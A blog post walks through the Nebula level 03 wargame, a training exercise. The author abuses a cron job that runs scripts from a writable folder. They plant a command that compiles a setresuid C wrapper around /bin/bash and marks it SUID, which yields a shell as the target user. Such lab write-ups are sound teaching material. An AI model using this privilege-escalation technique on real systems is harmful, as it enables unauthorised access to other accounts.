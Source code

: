 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula 03"
date: "2011-12-04T15:22:00-05:00"
comments: true
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


In [this](http://exploit-exercises.com/nebula/level03) challenge, we can see that there's no code for us to exploit, it's something in the system. 
I log in to the system, and look in the /home/flag03 folder, as all the other challenges have started.  I see there's a writable.sh script, which I was guessing was the script getting called on a crontab every couple minutes.  

<!-- more -->

It contained: 

```
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

So this script looks like it will execute anything in the writable.d folder that we put in there.  And after some tinkering, I can see that it's running it as the flag03 user that we want to escalate to. 

My first thoughts were to create a bash script like previous challenges, and have it get created with SUID permissions.  However this didn't work, because apparently bash ignores the SUID bit, for security reasons.  I then read up on using perl, but couldn't get it to work, due to perl's built in protection.  Lastly, I settled on just good old C/C++. I spent forever messing around with this, because I was always setting the uid, but never the euid. When I forgot that, it would run bash, but I'd be the same user. I created this source file, and saved it to /tmp/level03.c 

```
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setresuid(996, 996, 996);
    setresgid(996, 996, 996);
    system( "/bin/bash" );
    return 0;
}
```

NOTE: The "996" is the userid and groupid for flag03.  I found this by just doing 

```
level03@nebula:/home/flag03$ cat /etc/passwd
```

Now that I have a source file, I need to get the flag03 user to compile it, and mark it SUID, so that when it runs, it works as the user specified.  I did it by using the following command: 

```
level03@nebula:/home/flag03$ echo -e 'gcc -o /home/flag03/level03 /tmp/level03.c;chmod +s,a+rwx /home/flag03/level03' > /home/flag03/writable.d/bash; chmod +x /home/flag03/writable.d/bash
```

This will create a bash script to get picked up by the cron job.  It first compiles the /tmp/level03.c code file and outputs the binary to /home/flag03/level03.  Afterwards it sets the permissions to allow executing (and more technically) as well as SUID.  After this command, I had to wait a couple minutes for it to get picked up by the cron job, but then I ran it, and got access to flag03. 

```
level03@nebula:/home/flag03$ ./level03
flag03@nebula:/home/flag03$ getflag
You have successfully executed getflag on a target account
```
